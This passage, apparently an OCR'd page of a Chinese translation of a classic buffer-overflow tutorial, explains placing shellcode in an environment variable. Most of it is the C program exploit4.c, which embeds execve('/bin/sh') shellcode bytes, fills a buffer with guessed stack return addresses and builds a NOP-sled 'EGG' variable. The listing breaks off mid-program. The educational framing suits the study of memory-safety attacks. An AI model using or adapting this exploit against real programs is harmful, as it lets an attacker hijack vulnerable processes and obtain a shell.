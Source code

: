 

有时，你试图溢出的缓冲区太小，以至于shellcode无法放入其中，它将用指令而不是代码的地址覆盖返回地址，或者您可以填充字符串前面的nop太少，猜测其地址的机会微乎其微。为了从这些程序中获得一个shell，我们必须用另一种方法。只有当您可以访问程序的环境变量时，这种特殊的方法才有效。我们要做的是将shellcode放在一个环境变量中，然后用内存中这个变量的地址溢出缓冲区。此方法还增加了对漏洞利用的更改，因为您可以使容纳shell代码的环境变量尽可能大。当程序启动时，环境变量存储在堆栈的顶部，setenv（）所做的任何修改都会分配到其他地方。开始时的堆栈如下所示：

```
<strings><argv pointers>NULL<envp pointers>NULL<argc><argv>envp>
```

我们新程序会带来一个额外的变量，即包含shellcode和nop的变量的大小。我们的新漏洞现在看起来像这样：

```c
//exploit4.c
#include <stdlib.h> 

#define DEFAULT_OFFSET			0
#define DEFAULT_BUFFER_SIZE		512 
#define DEFAULT_EGG_SIZE		2048
#define NOP						0x90

char shellcode[] = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_esp(void){
    __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]){
    char *buff, *ptr, *egg;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
    int i, eggsize=DEFAULT_EGG_SIZE;
    
    if (argc > 1) bsize = atoi(argv[1]);
    if (argc > 2) offset = atoi(argv[2]);
    if (argc > 3) eggsize = atoi(argv[3]);
    
    if (!(buff = malloc(bsize))) { 
        printf("Can't allocate memory.\n"); 
        exit(0);
    } 
    if (!(egg = malloc(eggsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }
    
	addr = get_esp() - offset;
    printf("Using address: 0x%x\n", addr);
    
	ptr = buff;
    addr_ptr = (long *) ptr;
    for (i = 0; i < bsize; i+=4)
        *(addr_ptr++) = addr;
    
	ptr = egg;
	for (i = 0; i < eggsize - strlen(shellcode) - 1; i++)
        *(ptr++) = NOP;
    
	for (i = 0; i < strlen(shellcode); i++)
        *(ptr++) = shellcode[i];
    
    buff[bsize - 1] = '\0';
    egg[eggsize - 1] = '\0';
    
    memcpy(egg,"EGG=",4);
```
